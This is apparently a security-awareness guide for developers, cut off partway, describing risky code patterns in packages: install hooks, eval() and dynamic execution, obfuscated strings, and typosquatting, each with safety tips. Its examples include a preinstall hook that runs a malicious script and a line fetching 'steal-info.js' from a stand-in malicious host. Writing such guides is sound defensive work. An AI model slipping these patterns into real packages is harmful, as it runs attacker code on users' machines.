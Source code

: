 Understanding potentially harmful code patterns can help you avoid falling for malicious scams or installing unsafe packages. Always research the following types of code:

### Post and Pre-Install Scripts

-   **Description:** These scripts run automatically when installing a package (`npm install`, `yarn install`, `pip install`). Malicious packages can execute harmful code on your machine even before you run your project.

-   **Example:**

    ```
    {
      "scripts": {
        "preinstall": "node malicious-script.js"
      }
    }
    ```

-   **How to Stay Safe:** Always check the `package.json` file before installing a package. Use `npm install --ignore-scripts` if unsure.


### `eval()` and Dynamic Code Execution

-   **Description:** The `eval` function and similar methods (`new Function()`, `setTimeout('code')`, `setInterval('code')`) execute arbitrary code, which attackers can exploit to steal credentials, inject malicious scripts, or run unauthorized commands.

-   **Example:**

    ```
    eval(fetch('https://malicious-site.com/steal-info.js'));
    ```

-   **How to Stay Safe:** Avoid using `eval()` or any dynamically executed code. Use safer alternatives like `JSON.parse()` or secure function calls.


### Obfuscated or Minified Code

-   **Description:** Attackers often hide malicious payloads in minified or obfuscated code, making it harder to detect harmful behavior.

-   **Example:**

    ```
    var a = "\x6c\x6f\x63\x61\x74\x69\x6f\x6e";
    ```

-   **How to Stay Safe:** If you encounter obfuscated code, use tools like `js-beautify` or `deobfuscator.io` to inspect it before execution.


### Supply Chain Attacks & Dependency Hijacking

-   **Description:** Attackers publish malicious packages with names similar to popular ones (typosquatting) or inject backdoors into compromised packages.
